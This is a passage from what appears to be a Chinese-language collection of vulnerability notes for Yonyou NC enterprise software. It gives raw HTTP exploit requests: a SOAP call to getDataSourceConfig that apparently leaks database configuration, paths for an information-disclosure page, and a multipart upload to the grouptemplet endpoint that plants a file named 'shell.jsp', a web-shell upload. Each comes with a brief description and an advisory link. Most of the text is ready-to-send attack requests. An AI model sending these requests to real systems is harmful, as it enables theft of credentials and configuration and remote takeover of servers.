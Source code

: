 ```
POST /uapws/service/nc.itf.ses.inittool.PortalSESInitToolService HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36
Content-Type: application/x-www-form-urlencoded

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:por="http://inittool.ses.itf.nc/PortalSESInitToolService">
 <soapenv:Header/>
 <soapenv:Body>
    <por:getDataSourceConfig/>
 </soapenv:Body>
</soapenv:Envelope>
```

https://stack.chaitin.com/vuldb/detail/e03d848e-28d7-405a-867f-1dbb02594c7d

#### wsncapplet.jsp信息泄漏

通过访问wsncapplet.jsp页面攻击者可以获取系统的关键信息，包括java版本、绝对路径等

```
jsp/wsncapplet.jsp
/ncws.jnlp
```

https://security.yonyou.com/#/noticeInfo?id=345

### NC65文件上传

#### grouptemplet文件上传漏洞

hotwebs\uapim\WEB-INF\lib\uapim-server-core-0.0.1.jar!\com\yonyou\uapim\web\controller\UploadController.class

```
POST /uapim/upload/grouptemplet?groupid=test HTTP/1.1
Host: 192.168.111.137:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------166174900219260261099360
Content-Length: 227

----------------------------166174900219260261099360
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: application/octet-stream

123123
----------------------------166174900219260261099360--
```
